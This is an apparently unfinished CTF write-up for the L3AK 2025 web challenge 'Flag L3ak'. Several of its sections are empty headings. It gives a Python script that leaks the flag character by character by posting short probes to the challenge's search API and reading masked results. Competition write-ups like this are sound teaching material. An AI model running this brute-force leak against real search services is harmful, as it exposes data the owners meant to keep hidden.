 ```yaml
---
title: "L3AK25: Writeup for Web/Flag_L3ak"
date: 2025-07-14T09:31:01+01:00
tags: ["ctf", "write-up", "l3ak"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Flag L3ak"
summary: ""
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Overview

* CTF: L3AK CTF 2025
* Challenge: Flag L3ak
* Category: Web Exploitation
* Points: 50 (698 solves)
* Description:

> What's the name of this CTF? Yk what to do 😉

* Author: [p._.k](https://discord.com/users/1267886144306282621)

[Challenge source (will update this when the ctf ends for reproducibility)](https://ctf.l3ak.team/files/a753e930cce5e57819041baba8c40dcd/flag_l3ak.zip?token=eyJ1c2VyX2lkIjoyMjE0LCJ0ZWFtX2lkIjoxMDU5LCJmaWxlX2lkIjo0N30.aHTFkA.tJCqyTOLb1ZKlvP2QqdFxosJAcI)

## TL;DR

## Initial Analysis

## Task Analysis

## Exploitation

Armed with this knowledge, we need to do the following steps:

1. Establish a baseline of the response content where a hit occurs ('*' in the json)
2. brute-force the first charcter after `known` (query = L3AK{**a**)
3. If the response is a hit, then add one more character (?q=L3AK{a**a**); otherwise try a new one (?q=L3AK{**b**).
4. In the end, a full flag (?q=L3AK{flag_here}) can be leaked.

```python
#!/usr/bin/env python3

import string
import requests

URL = 'http://34.134.162.213:17000/api/search'

alphabet = string.printable.strip()
known = 'L3AK{'

print(f"[+] Starting brute-force with prefix: {known}")

while not known.endswith('}'):
    found = False
    for c in alphabet:
        probe = (known + c)[-3:]
        r = requests.post(URL, json={"query": probe})
        data = r.json()

        # Filter out decoy match (like post id 4) by checking for masked content
        for post in data.get('results', []):
            if '*' in post['content']:
                print(f"[+] Match found via mask for '{probe}' → adding '{c}' to flag")
                known += c
                found = True
                break

        if found:
            break

    if not found:
        print("[-] No matching character found — maybe charset is wrong or flag ended.")
        break

print(f"\n✅ Final reconstructed flag: {known}")
```

-- todo: GIF showcasing the running of the script

Flag is: `L3AK{L3ak1ng_th3_Fl4g??}`

## Conclusions

## References


